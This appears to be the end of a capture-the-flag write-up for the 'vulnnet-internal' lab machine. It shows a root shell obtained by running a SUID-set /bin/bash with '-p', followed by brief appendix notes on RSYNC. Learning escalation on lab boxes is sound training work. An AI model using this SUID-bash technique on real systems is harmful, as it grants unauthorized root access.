 ![image.png](image%208.png)

```powershell
sys-internal@vulnnet-internal:~$ ls -lsa /bin/bash
1088 -rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash

sys-internal@vulnnet-internal:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(sys-internal) gid=1000(sys-internal) euid=0(root) groups=1000(sys-internal),24(cdrom)
bash-4.4# 

```

# Appendix

## Remote Synchronization (RSYNC)

<aside>
💡

RSYNC is a fast and versatile command-line utility for file synchronization and transfer. It is widely used in Unix-like operating systems and is particularly valued for its efficiency and flexibility. RSYNC allows users to copy files and directories between local and remote systems while minimizing data transfer by synchronizing only the differences between source and destination.

</aside>

## NFS (Network File System)

